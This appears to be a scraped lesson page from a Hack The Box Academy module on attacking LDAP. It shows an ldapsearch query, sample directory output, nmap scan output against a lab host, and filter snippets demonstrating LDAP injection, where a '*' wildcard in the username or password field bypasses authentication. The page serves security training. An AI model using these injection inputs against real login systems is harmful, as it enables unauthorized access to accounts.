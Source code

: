 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/113/section/2153
// Platform Version: V1
// Module ID: 113
// Module Name: Attacking Common Applications
// Module Difficulty: Medium
// Section ID: 2153
// Section Title: Attacking LDAP
// Page Title: Hack The Box - Academy
// Page Number: 26
-->

# Attacking LDAP

**Module Name:** Attacking Common Applications **Page Number:** 26

#### 

#### ATTACKING COMMON APPLICATIONS

# LDAP

#### ldapsearch

``` shell-session
[!bash!]$ ldapsearch -H ldap://ldap.example.com:389 -D "cn=admin,dc=example,dc=com" -w secret123 -b "ou=people,dc=example,dc=com" "(mail=john.doe@example.com)"
```

``` ldap
dn: uid=jdoe,ou=people,dc=example,dc=com
objectClass: inetOrgPerson
objectClass: organizationalPerson
objectClass: person
objectClass: top
cn: John Doe
sn: Doe
uid: jdoe
mail: john.doe@example.com

result: 0 Success
```

## LDAP Injection

``` php
(&(objectClass=user)(sAMAccountName=$username)(userPassword=$password))
```

``` php
$username = "*";
$password = "dummy";
(&(objectClass=user)(sAMAccountName=$username)(userPassword=$password))
```

``` php
$username = "dummy";
$password = "*";
(&(objectClass=user)(sAMAccountName=$username)(userPassword=$password))
```

## Enumeration

#### nmap

``` shell-session
[!bash!]$ nmap -p- -sC -sV --open --min-rate=1000 10.129.204.229

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-23 14:43 SAST
Nmap scan report for 10.129.204.229
Host is up (0.18s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Login
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 149.73 seconds
```

#### Injection

# 

# 

#### Questions

####
